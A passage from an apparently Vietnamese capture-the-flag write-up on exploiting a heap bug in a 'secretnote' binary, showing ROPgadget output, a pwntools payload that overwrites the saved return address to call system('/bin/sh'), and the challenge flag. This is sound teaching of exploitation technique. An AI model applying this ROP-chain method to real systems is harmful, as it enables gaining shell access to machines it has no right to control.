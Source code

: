 Size của topchunk là `0x00007ffc18bf4398`, vẫn rất lớn, đủ để ta `malloc(0x200)` cho đợt sau.

Khi thực thi xong `strcpy()`, chương trình sẽ thoát `insert` luôn, không thay đổi gì stack nữa.

Vì thế ta sẽ tạo rop để malloc lần kế, nó sẽ ghi đè saved rip của `insert` và làm cho chương trình thực thi rop để lấy shell. Vậy bây giờ ta cần một vài gadget để điều khiển rdi và rsi:

```bash
$ROPgadget --binary secretnote | grep ": pop"
...
0x00000000004012d8 : pop rbx ; sub eax, 0x5d010000 ; ret
0x0000000000401e83 : pop rdi ; ret
0x0000000000401e81 : pop rsi ; pop r15 ; ret
...
````

Ta có 2 gadget là `0x0000000000401e83` và `0x0000000000401e81`. Kế đến ta tạo rop và `edit` lần nữa với size lớn hơn `0x100` để malloc và `strcpy()`, overwrite saved rip và tạo shell:

```python
payload = flat(
	0,
	0x0000000000401e81,
	0,
	0,
	0x0000000000401e83,
	next(libc.search(b'/bin/sh')),
	libc.sym['system'])
edit(2, b'm'*8, 0x200, payload)
```

Full code: [solve.py](solve.py)

# 4. Lấy cờ

![get-flag.png](images/get-flag.png)

Flag là `KCSC{54c162a404229e530f6517b82b597ab9}`